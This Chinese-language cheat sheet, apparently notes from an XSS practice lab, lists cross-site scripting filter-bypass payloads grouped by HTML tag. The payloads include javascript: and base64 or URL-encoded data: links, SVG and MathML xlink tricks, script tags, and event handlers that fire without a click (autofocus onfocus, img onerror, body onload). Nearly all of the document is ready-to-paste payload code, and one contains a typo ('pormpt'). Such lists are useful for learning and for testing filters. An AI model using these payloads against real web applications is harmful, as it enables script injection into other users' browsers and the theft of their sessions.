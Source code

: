 ## Level-20
同Level-19，漏洞已过时
# XSS绕过
## a标签
```html
#javascript协议
<a href=javascript:alert(1)>点我啊</a>

# data协议
<a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgzKTwvc2NyaXB0Pg==>点我</a>

# url编码的data协议
<a    href=data:text/html;%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%2829%29%3C%2F%73%63%72%69%70%74%3E>

# 另两种方式实现
<a xlink:href="javascript:alert(14)"><rect width="1000" height="1000" fill="black"/></a></svg>
<math><a xlink:href=javascript:alert(1)>点我</math>
```
## script标签
```html
# 直接弹窗
<script>alert(1)</script>
<script>confirm(1)</script>
<script>pormpt(1)</script>

# javascript协议编码
<script>alert(String.fromCharCode(49))</script>

# 如果输出是在setTimeout里，我们依然可以直接执行alert(1)
<script>setTimeout('alert(1)',0)</script>
```
## button标签
```html
# 点击弹窗
<button/onclick=alert(1) >点我</button>

# 不需要点击就能弹窗
<button onfocus=alert(1) autofocus>
```
## p标签
```html
# 可以直接使用事件触发
<p/onmouseover=alert(1)>点我</p>
```
## img标签
```html
# 可以使用事件触发
<img src=x onerror=alert(1)>
```
## body标签
```html
# 事件触发
<body onload=alert(1)>

# onscroll 事件在元素滚动条在滚动时触发，即页面存在很多内容，需要滚动才能看到下面的内容，就会触发
```